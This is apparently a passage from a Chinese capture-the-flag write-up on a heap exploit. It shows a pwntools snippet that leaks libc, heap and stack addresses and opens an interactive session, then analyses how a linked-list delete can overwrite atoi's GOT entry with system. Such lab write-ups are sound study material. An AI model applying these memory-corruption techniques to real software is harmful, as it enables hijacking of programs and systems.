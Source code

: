 ```python
action(cart,payload)
io.recvuntil('27: ')
stack_addr = u32(io.recv(4))

log.warn('libc_addr: %x' % libc_addr)
log.warn('heap_addr: %x' % heap_addr)
log.warn('stack_addr: %x' % stack_addr)

gdb.attach(io,'b * 0x8048beb')
io.interactive()
```

### delete一次有约束的地址写

之前提到了在delete时存在一次内存写操作，假如p为指向要删除的节点的指针，则内存的变化，可抽象的表示：

```c
p -> fd -> bk = p -> bk
p -> bk -> fd = p -> fd
```

加上这个节点本身的数据结构的条件，内存的变化即为：

```c
fd[3]=bk
bk[2]=fd
```

第27个节点的数据是完全可控的，即delete的时候fd，bk。现在我们已知了libc基址，堆段起始地址，栈地址。我们可以做什么？我是否可以只利用泄露出的libc基址，然后将GOT的某项覆盖为libc中system函数的地址呢？例如：当delete执行完之后还要回到handler函数，输入后会执行atoi函数，我希望把`GOT['atoi']`换成`libc_base+libc.symbols['system']`，即把GOT表中的atoi的表项换成libc中的system函数的地址即：

```c
* atoi@got = system@libc
```

为满足上面的约束条件可以有两种情况：

```python
(第一种)
令: fd[3] = * atoi@got , bk = system@libc
即: fd + 0xc = atoi@got , bk = system@libc
即: fd = atoi@got - 0xc , bk = system@libc
故: fd[3] = bk , 即完成* atoi@got = system@libc赋值操作

但: bk[2] = * (system@libc + 2)
若: bk[2] = fd , 进行赋值
则: * (system@libc + 2) = atoi@got - 0xc，即对libc中的system函数进行写操作，代码段是只读的，程序会崩溃


(第二种)
令: bk[2] = * atoi@got , fd = system@libc
即: bk + 0x8 = atoi@got , fd = system@libc
即: bk = atoi@got - 0x8 , fd = system@libc
故: bk[2] = fd , 即完成* atoi@got = system@libc赋值操作

但: fd[3] = * (system@libc + 3)
若: fd[3] = bk , 进行赋值
则: * (system@libc + 3) = atoi@got - 0x8，即对libc中的system函数进行写操作，代码段是只读的，程序会崩溃
```
